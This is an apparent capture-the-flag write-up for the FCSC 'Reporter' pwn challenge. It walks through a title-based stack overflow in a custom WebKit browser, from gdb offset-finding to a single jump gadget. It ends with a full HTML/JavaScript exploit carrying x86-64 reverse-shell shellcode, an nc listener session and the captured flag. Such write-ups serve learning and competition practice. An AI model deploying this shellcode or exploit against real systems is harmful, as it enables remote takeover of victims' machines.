






# Reporter (pwn - 499 pts)

> Vous arrivez dans une nouvelle entreprise qui utilise un navigateur conçu en interne. Pouvez-vous obtenir un shell sur la machine de la personne qui vérifie les liens qu'on lui envoie ?
> http://challenges2.france-cybersecurity-challenge.fr:4009/

## Testing the water
As soon as I saw this description, I got hyped, "Cool a browser exploit !" I thought. "It's the perfect occasion to learn more about WebKit and JavaScriptCore"... What a fool.

Checksec gives us the following output :


Keep in mind that there is no NX so we assume that all pages, including the stack and the heap are executable on the remote server.

`ldd fcsc_browser` terminated me :
```bash
libwebkit2gtk-4.0.so.37 => /lib/x86_64-linux-gnu/libwebkit2gtk-4.0.so.37 (0x00007f85355c3000)
libjavascriptcoregtk-4.0.so.18 => /lib/x86_64-linux-gnu/libjavascriptcoregtk-4.0.so.18 (0x00007f2ba5525000)
```
So no exploit for a custom version of WebKit or JSCore...

Jumping in Binary Ninja, we can see a bunch of C++ functions


Starting from the top, we have the `addBrowser` function which uses the `memcpy` function to concatenate "FCSC Browser - " with the input string using the size of the input string. Keep that in mind.


The `webview_title_change` function calls the `addBrowser` function with the utf8-decoded (with the `decode_utf8` function) page title retrieved with `webkit_web_view_get_title` function.


Well then... this is pretty straightforward. Since we control the page title we have an overflow in the `addBrowser` function. That's the good part. The annoying part is that we can't use null bytes since it would terminate our payload.

## Discovering the bug
Create a `index.html` file, run `python3 -m http.server` and start `gdb` with `fcsc_browser` as parameter and run : `r 0.0.0.0:8000` for the browser to load our `index.html` straight away.
Here's its content :
```html
<script>
	var payload = "a";
	payload += "A".repeat(8);
	payload += "B".repeat(8);
	payload += "C".repeat(8);
	payload += "D".repeat(8);
	payload += "E".repeat(8);
	payload += "F".repeat(8);
	payload += "G".repeat(8);
	payload += "H".repeat(8);
	payload += "I".repeat(8);
	payload += "J".repeat(8);
	payload += "K".repeat(8);
	payload += "L".repeat(8);
	payload += "M".repeat(8);
	payload += "N".repeat(8);
	payload += "O".repeat(8);
	payload += "P".repeat(8);
	payload += "Q".repeat(8);
	payload += "R".repeat(8);

	document.title = payload;
</script>
```
We simply use JavaScript to create an "egg finder" that will find how many bytes are required in the title for us to overwrite the return address of the `addBrowser` function.
The little "a" at the beginning is just to make sure that the rest of the payload is 8-bytes aligned, making it easier to read (or maybe only prettier).

Once the browser ran in `gdb`, it segfault at the return of the function and we can see 8 "R"s at the top of the stack... We control the return address at `RRRRRRRR`.


## Crafting the ropchain
"Easy !" you would think, as I did, but the absence of a null byte prevents you from crafting any ropchain longer than a single quadword (8 bytes) since pretty much every address contains several null bytes. So either we have to find another vuln that we can chain with this overflow (which I didn't find), or... you have to find a sort of "one ROP gadget" in the binary to jump on our page title.
In order to find every pointer to our input that we can set on top of the stack before `ret`ting, I ran a `gef config context.nb_lines_stack 500; context stack` to display 500 stack addresses containing a pointer to our input. Here they are :
```bash
0x00007fffffffd510│+0x0028: 0x0000000000a2c610  →  "FCSC Browser - aAAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEE[...]"	 ← $rax
0x00007fffffffd530│+0x0048: 0x00000000006d1b00  →  "aAAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFFG[...]"
0x00007fffffffd550│+0x0068: 0x00000000009c4f20  →  "aAAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFFG[...]"
0x00007fffffffd578│+0x0090: 0x00007fffffffd6f8  →  0x4c4c4c4c4c4c4c4b
0x00007fffffffd5a0│+0x00b8: 0x0000000000ae7090  →  "aAAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFFG[...]"
0x00007fffffffdab0│+0x05c8: 0x00007fffe6efdd3b  →  "0.0.0.0:8000/"
```
The first one isn't viable since "FCSC Browser" aren't valid instructions.
I kept the last one in mind "just in case". We'll maybe have to buy a domain name containing an alphanumerical reverse-shell shellcode...
Using ropper, you can search for a specific semantic such as `reg+=value`, so we'll be searching for `rsp+=[72,104,152,184,1480]`
```
$ ropper --file fcsc_browser --semantic "rsp+=72"
[INFO] 0 gadgets found

$ ropper --file fcsc_browser --semantic "rsp+=104"
[INFO] 0 gadgets found

$ ropper --file fcsc_browser --semantic "rsp+=152"
[INFO] 0 gadgets found

$ ropper --file fcsc_browser --semantic "rsp+=184"
[INFO] 0 gadgets found

$ ropper --file fcsc_browser --semantic "rsp+=1480"
[INFO] 0 gadgets found
```
No gadget found. At this point, I entered a phase of despair and since the first stage of grief is denial, I started looking manually for gadgets that increased `rsp` as I wanted before executing `ret` with `ropper --file fcsc_browser`, just in case `ropper` had a bug on the `--semantic` option. Obviously I didn't find any gadget that would increment `rsp` for us before executing `ret`... but I found something quite interesting : `0x000000000040d593: jmp qword ptr [rax];`. Since `rax` is pointing to a heap pointer on the stack, itself pointing to the title, I started looking for something like something like `add BYTE PTR [rax],al` (which is pretty common since its opcode is `00 00`) in order to increment the heap pointer before `jmp qword ptr`ing on it... and there it was... the one gadget :
`0x0000000000403edf: add byte ptr [rax], ah; jmp qword ptr [rax];`
Please take a moment to admire the gadget.

Replace the all the `R` with `payload += String.fromCharCode(0xdf, 0x3e, 0x40);` in order to jump on our gadget.

Only one nibble, in this case the four heaviest bits, of the `ah` reg is controlled by the ASLR so we'll just have to send multiple times our exploit in case it doesn't work straight away.
I found [this reverse-shell shellcode](http://shell-storm.org/shellcode/files/shellcode-857.php) and luckily enough, it didn't have any null byte in it. Once modified, craft the final exploit :
```html
<script>
	var payload = "";

	payload += "\x48\x31\xc0\x48\x31\xff\x48\x31\xf6\x48\x31\xd2\x4d\x31\xc0\x6a";
	payload += "\x02\x5f\x6a\x01\x5e\x6a\x06\x5a\x6a\x29\x58\x0f\x05\x49\x89\xc0";
	payload += "\x48\x31\xf6\x4d\x31\xd2\x41\x52\xc6\x04\x24\x02\x66\xc7\x44\x24";
	payload += "\x02\x05\x39\xc7\x44\x24\x04" + String.fromCharCode(insert, your, IP, address) + "\x48\x89\xe6\x6a\x10";
	payload += "\x5a\x41\x50\x5f\x6a\x2a\x58\x0f\x05\x48\x31\xf6\x6a\x03\x5e\x48";
	payload += "\xff\xce\x6a\x21\x58\x0f\x05\x75\xf6\x48\x31\xff\x57\x57\x5e\x5a";
	payload += "\x48\xbf\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xef\x08\x57\x54";
	payload += "\x5f\x6a\x3b\x58\x0f\x05";

	payload = payload.padStart(136, "\x90");
	payload += "\x90";
  // 0x0000000000403edf
	payload += String.fromCharCode(0xdf, 0x3e, 0x40);

	document.title = payload;
</script>
```
The `payload.padStart(136, "\x90")` will serve a nop sled to our shellcode to increase the chances of success.
Once the exploit hosted on any IP, rerun a `python3 -m http.server` and send the link.
After a couple tries (actually fifteen), I got my shell :
```bash
$ nc -lvp 1337
Listening on [0.0.0.0] (family 0, port 1337)
Connection from received!
id
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)
ls
fcsc_browser
flag
main.py
run.sh
static
templates
cat flag
FCSC{da8089fd6e7a40288a64f88b6a1a8027457206dffbfb28a5c8489a4e1c866e08}
```

Yay !

## Conclusion

There's always a one gadget waiting for you, finding it depends on how much time you want to invest searching it
